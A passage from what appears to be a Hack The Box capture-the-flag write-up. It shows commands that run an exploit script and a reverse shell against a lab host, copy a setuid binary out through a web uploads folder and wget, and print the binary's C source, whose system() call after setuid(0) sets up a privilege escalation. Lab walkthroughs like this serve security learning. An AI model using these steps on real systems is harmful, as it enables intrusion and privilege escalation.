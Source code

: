 Then start a listener with Netcat and run:

```bash
python3 exploit.py --url http://192.168.254.3/index.php
python3 rshell.py 9999
```

This grants access to the `pki` machine:

```bash
hostname
# pki
```

## Escalation

### Finding the Vector

The processes and sockets look boring.

Let's find the binary mentioned in the earlier request: `ersatool`.

```bash
find / -name '*ersatool*' 2>/dev/null
# /usr/src/ersatool.c
# /usr/bin/ersatool
cp /usr/src/ersatool.c /var/www/html/uploads/
cp /usr/bin/ersatool /var/www/html/uploads/
```

And from `192.168.254.2` or `web`:

```bash
cd /tmp
wget http://192.168.254.3/uploads/ersatool
wget http://192.168.254.3/uploads/ersatool.c
```

And exfiltrate the files with `sftp`.

### Static Analysis

This tool makes a system call:

```c
if(pid==0){
    char *a[] = {EASYRSA,"build-client-full",strtok(basename(buffer),"\n"),"nopass","batch"};
    //forge the command string
    cleanStr(a[2]);
    sprintf(CMD,"%s %s %.20s %s %s",a[0],a[1],a[2],a[3],a[4]);
    sout=dup(STDOUT_FILENO);
    serr=dup(STDERR_FILENO);
    devNull=open("/dev/null",O_WRONLY);
    dup2(devNull,STDOUT_FILENO);
    dup2(devNull,STDERR_FILENO);
    setuid(0); //escalating privilges to generate required files
    chdir(ERSA_DIR);
    system(CMD);
}
```


[author-profile]: https://app.hackthebox.com/users/9631
[cve-2019-11043]: https://github.com/theMiddleBlue/CVE-2019-11043
[otphp]: https://github.com/lelag/otphp
[fixgz]: https://github.com/yonjar/fixgz
[phpinfo]: images/screenshots/phpinfo.png
[pki-domain]: images/screenshots/pki.png
[xdebug-rce]: https://www.rapid7.com/db/modules/exploit/unix/http/xdebug_unauth_exec/